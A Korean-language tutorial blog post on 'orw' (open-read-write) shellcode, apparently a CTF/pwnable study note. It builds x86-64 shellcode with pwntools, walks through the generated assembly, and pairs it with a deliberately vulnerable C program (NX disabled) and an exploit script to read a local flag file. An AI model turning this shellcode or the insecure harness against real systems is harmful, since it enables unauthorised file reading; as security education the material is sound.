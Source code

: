 +++
title = "orw shellcode"
date = "2023-08-30"
+++

# Introduction
`shellcode`는 특정 동작을 수행하는 *바이트 코드* 로써, 유저의 입력값을 실행할 수 있는 환경일 때 유용하게 활용될 수 있습니다.
이 포스트에서 살펴볼 `shellcode`는 **open**, **read**, **write** 를 수행하는 바이트 코드로, 일명 `orw shellcode` 입니다.

`orw shellcode`를 활용하면 아래의 동작을 수행할 수 있습니다.
> 1. [open](https://pubs.opengroup.org/onlinepubs/9699919799/functions/open.html)(path, flag, ...) 함수로 특정 파일을 열고 *file descriptor* 를 지정할 수 있습니다.
> 
> 2. [read](https://man7.org/linux/man-pages/man2/read.2.html)(fd, buf, count) 함수로 open 된 파일의 값을 읽을 수 있습니다.
> 
> 3. [write](https://man7.org/linux/man-pages/man2/write.2.html)(fd, buf, count) 함수로 읽은 파일의 내용을 특정 위치에 출력할 수 있습니다.


# Code
## craft shellcode
`shellcode`는 ***pwntools*** 의 [shellcraft](https://docs.pwntools.com/en/stable/shellcraft.html)를 이용하면 아래와 같이 간단히 만들 수 있습니다.

단, 여기서는 `64-bit` 환경임을 상정하고 쉘코드를 만들었습니다. 따라서, `context.arch = 'amd64'` 코드를 추가하여 이를 명시해주었습니다.

```python
from pwn import *

context.arch = 'amd64'

flag_path = b"./flag.txt"
buf = 'rsp'
size = 0x80

sc = shellcraft.open(flag_path)
sc += shellcraft.read('rax', buf, size)
sc += shellcraft.write(1, buf, size)
print(sc)

shellcode = asm(sc)
print(shellcode)
```

위 코드를 실행했을 때, `print(sc)`의 결과를 차근차근 살펴보면 아래와 같습니다.

유의해야 할 점은 `64-bit`환경에서의 **systemcall**을 할 때, 인자 순서에 따라 어느 레지스터에 들어가는지를 알고 있어야 한다는 점입니다.
이와 관련해서는 [syscall table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit) 을 참고하시면 좋습니다.

> *rdi*, *rsi*, *rdx*, ... 순서로 저장됨을 확인할 수 있습니다.

```asm
    /* open(file=b'./flag.txt', oflag=0, mode=0) */
    /* push b'./flag.txt\x00' */
    push 0x1010101 ^ 0x7478
    xor dword ptr [rsp], 0x1010101
    mov rax, 0x742e67616c662f2e
    push rax
    mov rdi, rsp
    xor edx, edx /* 0 */
    xor esi, esi /* 0 */
    push SYS_open /* 2 */
    pop rax
    syscall

    /* read('rax', 'rsp', 0x80) */
    mov rdi, rax
    xor eax, eax /* SYS_read */
    xor edx, edx
    mov dl, 0x80
    mov rsi, rsp
    syscall

    /* write(fd=1, buf='rsp', n=0x80) */
    push 1
    pop rdi
    xor edx, edx
    mov dl, 0x80
    mov rsi, rsp
    /* call write() */
    push SYS_write /* 1 */
    pop rax
    syscall
```

위 어셈블리어를 잘 읽어보면 `open`, `read`, `write` 에서 각 레지스터에 적절한 인자값들을 넣어주고 있음을 확인할 수 있습니다.

---

## shellcode.c

위 `shellcode`를 테스트하기 위해 아래와 같이, stdin 으로 입력받은 *바이트 코드* 를 실행해주는 c언어 코드를 작성합니다.

```C
#include <stdio.h>
#include <unistd.h>

int main() {
  // buffer for storing shellcode
  char shellcode[] = "";

  read(0, shellcode, 1024);

  void (*func)();

  // type conversion; char[] to function pointer
  func = (void (*)())shellcode;

  // execute shellcode
  func();

  return 0;
}
```

단, 위 코드를 이용해 코드를 실행하기 위해서는 `NX` 보호 기법을 해제해줘야 합니다.
따라서, 컴파일 옵션으로 `-z execstack`을 추가하여 스택 영역에서 코드 실행을 가능하게 해줍니다.

```bash
gcc -o shellcode shellcode.c -z execstack
```

---

## ex.py

***pwntools*** 를 이용해 `shellcode`를 주입하여 `orw` 를 수행하는 `ex.py` 코드는 아래와 같습니다.

```py
from pwn import *

context.arch = 'amd64'

flag_path = b"./flag.txt"
size = 0x80
buf = 'rsp'

sc = shellcraft.open(flag_path)
sc += shellcraft.read('rax', buf, size)
sc += shellcraft.write(1, buf, size)

shellcode = asm(sc)

p = process(b"./shellcode")

p.send(shellcode)
print(p.recv(64))
```

# Result
실행화면은 아래와 같습니다.

<center>
<img alt="result" src="../../pwnable/orw_shellcode/orw_shellcode_1.png" />
</center>

**FLAG** 값으로 `FLAG{open_read_write_shellcode_this_is_FLAG!}` 를 확인할 수 있습니다.

<script src="https://utteranc.es/client.js"
        repo="c0np4nn4/utterance_repo"
        issue-term="pathname"
        label="utterances"
        theme="github-light"
        crossorigin="anonymous"
        async>
</script>

